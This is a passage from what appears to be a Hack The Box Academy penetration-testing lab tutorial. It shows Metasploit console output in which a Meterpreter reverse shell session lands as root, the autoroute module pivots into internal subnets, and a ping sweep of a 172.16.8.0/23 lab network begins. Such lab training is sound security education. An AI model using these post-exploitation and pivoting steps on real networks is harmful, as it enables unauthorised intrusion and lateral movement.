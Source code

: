 [*] Started reverse TCP handler on 10.10.14.15:443 
[*] Sending stage (989032 bytes) to 10.129.203.111
[*] Meterpreter session 1 opened (10.10.14.15:443 -&gt; 10.129.203.111:58462 ) at 2022-06-21 21:28:43 -0400

(Meterpreter 1)(/tmp) &gt; getuid
Server username: root
</code></pre>
<p>Next, we can set up routing using the <code>post/multi/manage/autoroute</code> module.</p>
<pre><code class="language-shell-session">(Meterpreter 1)(/tmp) &gt; background
[*] Backgrounding session 1...
[msf](Jobs:0 Agents:1) exploit(multi/handler) &gt;&gt; use post/multi/manage/autoroute 
[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) &gt;&gt; show options 

Module options (post/multi/manage/autoroute):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, autoadd, print, delete, de
                                       fault)
   NETMASK  255.255.255.0    no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION                   yes       The session to run this module on
   SUBNET                    no        Subnet (IPv4, for example, 10.10.10.0)

[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) &gt;&gt; set SESSION 1
SESSION =&gt; 1
[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) &gt;&gt; set subnet 172.16.8.0
subnet =&gt; 172.16.8.0
[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) &gt;&gt; run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.203.111
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.17.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.18.0.0/255.255.0.0 from host's routing table.
[*] Post module execution completed
</code></pre>
<p>For a refresher, consult the <a href="https://academy.hackthebox.com/module/115/section/1205">Crafting Payloads with MSFvenom</a> section of the <code>Shells &amp; Payloads</code> module and the <a href="https://academy.hackthebox.com/module/39/section/418">Introduction to MSFVEnom</a> section of the <code>Using the Metasploit Framework</code> module.</p>
<hr/>
<h2>Host Discovery - 172.16.8.0/23 Subnet - Metasploit</h2>
<p>Once both options are set up, we can begin hunting for live hosts. Using our Meterpreter session, we can use the <code>multi/gather/ping_sweep</code> module to perform a ping sweep of the <code>172.16.8.0/23</code> subnet.</p>
<pre><code class="language-shell-session">[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) &gt;&gt; use post/multi/gather/ping_sweep
[msf](Jobs:0 Agents:1) post(multi/gather/ping_sweep) &gt;&gt; show options 
